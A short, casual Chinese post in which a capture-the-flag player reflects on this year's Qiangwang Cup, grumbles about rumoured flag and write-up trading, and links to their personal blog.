卷不过卷不过，今年感觉比往年更卷了啊！

md，怎么感觉各种 py，到处都在传 *海鲜市场 强网杯 flag/wp.jpg* ，离谱（

摸了，今年继续水了个强网先锋，感觉还差两道题能进线下的样子

喵喵该跑路了，希望明年学弟学妹们能有机会进线下 ~*（啥时候有学妹*~

顺便，欢迎大师傅们到 [喵喵的博客](https://miaotony.xyz/?utm_source=butian) 逛逛喵~

*溜了溜了喵（*
